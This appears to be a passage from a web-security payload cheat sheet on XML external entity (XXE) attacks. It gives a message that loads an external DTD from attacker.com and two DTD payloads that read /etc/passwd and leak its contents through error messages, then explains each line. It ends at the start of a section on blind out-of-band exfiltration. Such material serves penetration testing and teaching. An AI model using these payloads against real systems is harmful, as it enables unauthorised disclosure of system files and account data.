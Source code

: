 ```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Content of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**Alternative content of ext.dtd**

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

Let's break down the payload:

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
   This line defines an external entity named file that references the content of the file /etc/passwd (a Unix-like system file containing user account details).
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
   This line defines an entity eval that holds another entity definition. This other entity (error) is meant to reference a nonexistent file and append the content of the file entity (the `/etc/passwd` content) to the end of the file path. The `&#x25;` is a URL-encoded '`%`' used to reference an entity inside an entity definition.
3. `%eval;`
   This line uses the eval entity, which causes the entity error to be defined.
4. `%error;`
   Finally, this line uses the error entity, which attempts to access a nonexistent file with a path that includes the content of `/etc/passwd`. Since the file doesn't exist, an error will be thrown. If the application reports back the error to the user and includes the file path in the error message, then the content of `/etc/passwd` would be disclosed as part of the error message, revealing sensitive information.

## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.
